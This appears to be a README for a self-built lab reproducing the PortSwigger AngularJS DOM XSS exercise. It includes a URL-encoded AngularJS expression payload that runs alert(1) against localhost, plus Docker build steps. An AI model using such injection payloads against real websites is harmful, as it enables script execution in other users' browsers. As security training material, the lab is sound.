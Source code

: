 # DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded

## SYNOPSIS
- Created a angular module
- and a controller
- the ```$scope``` pulls the query from the url
- binds the scope onto the html body via h1 tag


## PAYLOAD
- URL-encoded ```http://localhost:8086/?search=%7B%7B%24on.constructor%28%27alert%281%29%27%29%28%29%7D%7D``` 
- I could not get the app to render my payload as a pure HTML

## How to:
- ```chmod 700 build_docker```
- Run build_docker
- Use the payload above
- You should see an alert window

### NOTE
- Tested on both Safari and Chrome
- Only works on CHROME

#### Reference
DOM XSS in AngularJS expression with angle brackets and double quotes HTML-encoded \
https://portswigger.net/web-security/cross-site-scripting/dom-based/lab-angularjs-expression

AngularJS Form Validation \
https://www.w3schools.com/angular/angular_validation.asp

CSS classes used by AngularJS \
https://docs.angularjs.org/guide/css-styling

